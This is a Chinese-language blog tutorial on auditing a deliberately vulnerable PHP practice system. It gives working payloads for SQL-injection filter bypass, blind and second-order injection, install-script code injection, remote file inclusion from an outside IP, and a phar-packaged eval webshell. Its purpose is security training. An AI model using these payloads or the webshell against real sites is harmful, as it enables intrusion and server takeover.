

前言
主要参考Virink师傅的视屏带入门PHP代码审计视频地址
系统的主要编写流程比较好分析，PHP嵌套HTML开发。
审计浏览
大致的浏览一下系统的文件目录和配置文件说明什么的，这里的系统文件还是比较少一些，主要是浏览一下
入口文件(index.php)、配置文件(config.php)、安装文件(install.php)、以及lib.php文件
通过这些文件我们能大致的知道系统的一些基本配置和全局设置。我们主要关注一下lib.php文件，只要是加载了lib.php文件首先就设置了 全局变量的防护($_GET、$_POST、$COOKIE)都会自动加载addslashes函数‘ “ null \ 返回 \’ \” \\ 代码如下1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18if( !get_magic_quotes_gpc() ) {
$_GET = sec ( $_GET );
$_POST = sec ( $_POST );
$_COOKIE = sec ( $_COOKIE );
}
$_SERVER = sec ( $_SERVER );
function sec( &$array ) {
if ( is_array( $array ) ) {
foreach ( $array as $k => $v ) {
$array [$k] = sec ( $v );
}
} else if ( is_string( $array ) ) {
$array = addslashes( $array );
} else if ( is_numeric( $array ) ) {
$array = intval( $array );
}
return $array;
}
然后注意后面自定义的一些安全函数是否能bypass
1 | function sqlwaf( $str ) { |
粗略的看一下后面几段出现替换为空的操作，单引号被替换为空，数字型的注入就可以，可能就会出现问题比如$sql=”select * from user where $id”;
就直接bypass payload 如 an||d(sele||ct(sleep(3)))
安装问题
install.php 文件开头代码如下1
2
3
4if (file_exists($_SERVER["DOCUMENT_ROOT"] . '/sys/install.lock')) {
header("Location: ../index.php");
}
......
这里只是判断了install.lock 文件的存在，正常应该是存在这个文件之后就直接退出后面的操作，没有的话，后面的代码块还会继续执行，所以后面如果出现了可控的参数，一样会带入进行执行操作。
问题：可控参数如下：1
2
3
4$dbhost = $_POST["dbhost"];
$dbuser = $_POST["dbuser"];
$dbpass = $_POST["dbpass"];
$dbname = $_POST["dbname"];
前三个是连接数据库的信息没有办法进行写入，$dbname = $_POST[“dbname”];
到变量$str_tmp中去”\$database=\”$dbname\”; \r\n”;
只要保证查询语句不出现错误mysql_query(“CREATE DATABASE $dbname”, $con) or die(mysql_error());
创建一个不存在的数据库名就能成功写入config.php文件到目录拼接到sql语句中 “CREATE DATABASE $dbname”, $con payload如下：dbname=test -- -“;phpinfo();”
最后的内容写到/sys/config.php中的内容为$database="test -- -";phpinfo();”";
造成任意的代码写入漏洞。
文件包含
读到index.php文件
module参数可控如果开启远程包含 pyload如下1
2
3
4
5
6if (isset($_GET['module'])) {
include $_GET['module'] . '.inc';
//php.ini 配置开启allow_url_include = On
//这里存在远程文件包含module=http://39.108.59.30/1.txt?
1.txt的内容 <?php phpinfo();
}
如果是本地文件包含的话，可以利用上传的图片进行包含获得shell
比如图片上传的文件代码如下1
2
3
4User/ updateAvatar.php
$avatar = $uploaddir . ‘/u‘. time(). ‘‘ . $_FILES[‘upfile’][‘name’];
if (move_uploaded_file($_FILES[‘upfile’][‘tmp_name’], $avatar)) {
}
可以上传图片文件 需要爆破一下文件地址
然后使用phar协议包含文件
首先需要生成phar包文件需要把php.ini phar.readonly 设置成Off
然后直接浏览器访问此脚本生成一个my.phar包文件
如果包含文件的后缀是.php 或者inc需要改一下脚本的shell的后缀1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16<?php
try{
$p = new Phar("my.phar", 0, 'my.phar');
} catch (UnexpectedValueException $e) {
die('Could not open my.phar');
} catch (BadMethodCallException $e) {
echo 'technically, this cannot happen';
}
$p->startBuffering();
$p['shell.inc'] = '<?php phpinfo(); eval($_POST[x]); ?>';
// make a file named my.phar
$p->setStub("<?php
Phar::mapPhar('myphar.phar');
__HALT_COMPILER();");
$p->stopBuffering();
?>
最后的payload如下：/index.php?module=phar://uploads/my.gif/shellpost x=phpinfo();
类似的伪协议还有zip
注入
漏洞文件search.php
没有包含lib.php 就直接参数入sql语句，进行全局的过滤，导致注入成功。1
2
3
4
5if (!empty($_GET['search'])) {
$query = "SELECT * FROM comment WHERE comment_text LIKE '%{$_GET['search']}%'";
//未过滤存在sql注入
$data = mysql_query($query, $conn);
?>
由于包含了config.php error_reporting(0); 只能盲注
由于表comment 没有数据使用sleep 貌似没有反应
这里使用
?search=%’+or if(1,benchmark(50000000,SHA1(1)),1);– -
如果查询语句中没有返回值的话使用sleep函数是没有反应的

越权操作
没有判断id是否是当前操作的用户。手工检测一般都都是修改id，是否能影响到不同用户的属性。如果是看代码一般是sql语句什么的 看不出来是存在sql注入但是如果对用户的id没有进行判读就会出现越权的操作。
可控点$clean_user_id = clean_input($_POST['id']);
然后紧接着就带入sql语句中$query = “SELECT * FROM users WHERE user_name = ‘$clean_username’”;
造成任意用户名被修改
二次注入
一般出现的问题是第一次入库被过滤了，但是在出库的时候没有过滤，直接带入到sql语句中。一般是update 或者insert 语句出现问题。
问题就出在
messageSub.php文件$query = "INSERT INTO comment(user_name,comment_text,pub_date) VALUES ('{$_SESSION['username']}','$clean_message',now())";
可以看到$_SESSION[‘username’] 被带入sql语句中，我们搜索一下$_SESSION[‘username’] 在哪被赋值User/logCheck.php处出现赋值$_SESSION[‘username’] = $row[‘user_name’];
可以发现前面是判断用户登录$query = "SELECT * FROM users WHERE user_name = '$clean_name' AND user_pass = SHA('$clean_pass')";
可以让形如seck\的用户成功登录
返回的结果带入$_SESSION[‘username’] = $row[‘user_name’];进行赋值。
此时$_SESSION['username']就等于seck\
所以只要$_SESSION['username'] 带入了sql语句中就会转义引号，就造成了二次注入。
漏洞流程分析如下：
sys/lib.php
首先加载此文件1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30if (!get_magic_quotes_gpc()) {
$_GET = sec($_GET);
$_POST = sec($_POST);
$_COOKIE = sec($_COOKIE);
}
$_SERVER = sec($_SERVER);
function sec(&$array)
{
if (is_array($array)) {
foreach ($array as $k => $v) {
$array[$k] = sec($v);
}
} else if (is_string($array)) {
$array = addslashes($array);
} else if (is_numeric($array)) {
$array = intval($array);
}
return $array;
}
会有一个全局的防注入
Addslashes自动会转义
现在我们看一下注册用户的sql语句
User/regCheck.php
大致看了一下代码注册成功就直接赋值$_SESSION['username']，相当于完成了登录。
$clean_name = clean_input($_POST['user']);
看一下clean_input函数
function clean_input($dirty)
{
return mysql_real_escape_string(stripslashes($dirty));
}
所以我们只要注册一个形如seck\末尾是斜杠的用户，存储在数据库的用户名称的数据也是seck\
注册seck\用户后，$_SESSION['username'] 的赋值实在regCheck.php文件中进行赋值的，被clean_input函数给过滤了，我们需要重新登录一下，$_SESSION['username'] 的值才是seck\,之后转到留言处，进行sql语句的拼接造成二次注入，查看一下messageSub.php的sql语句如下：INSERT INTO comment(user_name,comment_text,pub_date) VALUES ('{$_SESSION['username']}','$clean_message',now())
payload如下：updatexml(1,concat(0x7e,database(),0x7e),1),2)#’INSERT INTO comment(user_name,comment_text,pub_date) VALUES (‘seck\’,’,updatexml(1,concat(0x7e,database(),0x7e),1),2)#’,now
!(sql)[erci.png]
逻辑漏洞
后台登录使用验证码进行防止爆破密码，一般我们找逻辑漏洞的点一般是验证码、密码找回、参数值等
这里就会发现我们登录一个用户，判断验证码时，没有更新，也就是我们每一次登录，填写一次验证码就可以测试多个密码值，验证码没有失效。
主要代码
1 | if (isset($_POST['submit']) && !empty($_POST['user']) && !empty($_POST['pass'])) { |
这里的问题，在exit之前给$_SESSION['captcha'] 重新赋新值。
总结
实际上线的系统一般都是基于框架开发，MVC设计思想的框架设计，一定程度上此测试系统在阅读和审计上面都是一些自行设计的一些问题，到实际项目业务中还是有一定的偏差，但是可以很好的练习PHP代码上的安全编写问题。后续的原创技术文章持续更新。 （大象安全,注重人才培养和技术分享，感谢关注！）

Powered by HyperComments